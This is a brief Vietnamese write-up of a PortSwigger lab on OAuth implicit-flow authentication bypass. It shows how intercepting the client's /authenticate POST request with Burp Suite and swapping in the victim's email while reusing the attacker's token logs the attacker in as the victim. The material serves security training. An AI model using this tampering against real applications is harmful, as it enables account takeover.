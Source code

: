 # [Lab: Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)

Lỗ hổng xuất hiện ở phía client application.

Sau khi dùng token để nhận được thông tin từ OAuth server thì browser gửi POST request tới /authenticate của client application với nội dung vừa nhận được từ OAuth.

Dùng burpsuite chỉnh sửa nội dung của POST request từ
```
{"email":"wiener@hotdog.com","username":"wiener","token":"gefdZHZ5zhAKE6lt4Ir5w5V3sYZeYvlv5RF0hyhAcAg"}
```
thành
```
{"email":"carlos@carlos-montoya.net","username":"wiener","token":"gefdZHZ5zhAKE6lt4Ir5w5V3sYZeYvlv5RF0hyhAcAg"}
```

Client application sẽ cho đăng nhập với mail `carlos@carlos-montoya.net`